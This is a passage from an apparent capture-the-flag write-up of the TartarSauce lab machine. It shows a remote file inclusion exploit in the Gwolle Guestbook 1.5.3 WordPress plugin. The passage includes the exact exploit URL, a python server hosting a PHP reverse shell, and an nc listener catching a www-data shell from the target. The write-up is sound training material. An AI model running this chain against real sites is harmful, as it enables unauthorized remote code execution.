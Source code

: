 There’s a [RFI vulnerability in Gwolle Guestbook v
1.5.3](https://www.htbridge.com/advisory/HTB23275). In this case, visiting
`http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-
gb/frontend/captcha/ajaxresponse.php?abspath=http://ip/path` will include that
file.

### POC

To test this, I first started a python http server on my host, and then
visited the site:

    
    
    root@kali# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/
    
    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.88 - - [28/May/2018 15:10:22] "GET /wp-load.php HTTP/1.0" 404 -
    

### Shell

I’ll grab `php-reverse-shell.php` from `/usr/share/webshells/php` on Kali.
There’s a couple lines you have to customize with your own IP and desired
callback port. Then I’ll name it `wp-load.php`, and open a `nc` listener, and
run that `curl` again:

    
    
    root@kali# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/
    
    
    
    10.10.10.88 - - [28/May/2018 15:15:03] "GET /wp-load.php HTTP/1.0" 200 -
    
    
    
    root@kali# nc -lnvp 1234
    listening on [any] 1234 ...
    connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 43868
    Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 i686 i686 GNU/Linux
     15:15:43 up  2:35,  0 users,  load average: 0.15, 0.04, 0.07
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Privesc: www-data –> onuma

As `www-data`, we can’t get into the lone user directory:

    
    